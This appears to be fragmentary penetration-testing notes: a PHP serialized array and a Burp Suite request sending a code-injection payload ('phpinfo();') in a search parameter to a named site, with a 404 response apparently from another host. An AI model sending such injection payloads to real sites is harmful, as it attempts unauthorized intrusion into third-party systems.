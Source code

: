a:4: {
    s:2: "ID";
    s:32:"951fdb78b218306fdb443eceac29664d";
    s:2:"am";
    i:1;
    s:4:"lang";
    s:7:"english";
    s:3:"liv";
    a:1: {
        i:0;
        s:1:"1";
    }
}

a:4:{s:2:"ID";s:32:"951fdb78b218306fdb443eceac29664d";s:2:"am";i:1;s:4:"lang";s:7:"english";s:3:"liv";a:1:{i:0;s:1:"1";}}




---

????
this crafted request appears to respond with a different website. when performed on https://copperplate.org.uk with scope limiting enabled in Burp Suite, sending this request returns a response from https://tech-sourcery.co.uk...

Note the '#' at the end
request to https://copperplate.org.uk/thumbnails.php?album=search&keywords=on&search=phpinfo();#
```
GET /thumbnails.php?album=search&keywords=on&search="""";phpinfo();#00 HTTP/2
Host: copperplate.org.uk
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Cache-Control: max-age=0
```

response from https://tech-sourcery.co.uk
```
HTTP/2 404 Not Found
X-Powered-By: W3 Total Cache/0.9.4.6.4
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Link: <https://tech-sourcery.co.uk/wp-json/>; rel="https://api.w.org/"
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Vary: Accept-Encoding,User-Agent
Content-Length: 17051
Content-Type: text/html; charset=UTF-8
Date: Wed, 07 Jun 2023 21:41:33 GMT
Server: Apache
```
